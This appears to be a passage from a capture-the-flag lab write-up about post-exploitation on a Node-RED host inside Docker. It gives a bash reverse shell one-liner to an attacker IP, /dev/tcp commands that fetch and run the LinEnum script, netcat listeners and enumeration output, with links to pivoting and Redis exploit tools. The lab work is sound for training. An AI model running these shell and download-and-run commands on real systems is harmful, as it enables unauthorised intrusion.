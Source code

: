 We don't have a full shell:

	cd ..
	pwd

```
/node-red
```

Upload enumeration script:

	python3 -m http.server 80		// host script
	nc -lvnp 8000 < LinEnum.sh		// serve script
	cat < /dev/tcp/10.10.16.10/8000	// No such file

	ls -la /bin/sh					// what kind of shell?
	
```
/bin/sh -> dash	// if we used bash we could probably run the enumeration script
```

	ls -la /bin/bash												// it exists
	bash -c "cat < /dev/tcp/10.10.16.10/8000 > /dev/shm/LinEnum.sh"	// get it
	md5sum LinEnum.sh												// good
	bash -c "bash -i /dev/shm/LinEnum.sh"							// the script runs

Let's just get a reverse shell:

	nc -lvnp 8002										// listen
	bash -c "bash -i >& /dev/tcp/10.10.16.12/8002 0>&1"	// connect

Explore:

	cd /
	ls -la			// .dockerenv, looks like we're in a Docker environment
	cd /dev/shm

Enumerate using LinEnum: [^1]

	bash LinEnum.sh

Search to the top of the script output without having to Shift+PgUp:

	<Ctrl+Shift>+F	// search for LinEnum and press Enter until you reach the top

```
Linux version 4.4.0-130-generic (buildd@lgw01-amd64-039) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #156-Ubuntu SMP Thu Jun 14 08:53:28 UTC 2018

### NETWORKING  ##########################################
[-] Network and IP info:
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever

[-] ARP history:
172.18.0.1 dev eth0 lladdr 02:42:9a:09:f4:1a REACHABLE


[-] Nameserver(s):
nameserver 127.0.0.11


```

[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html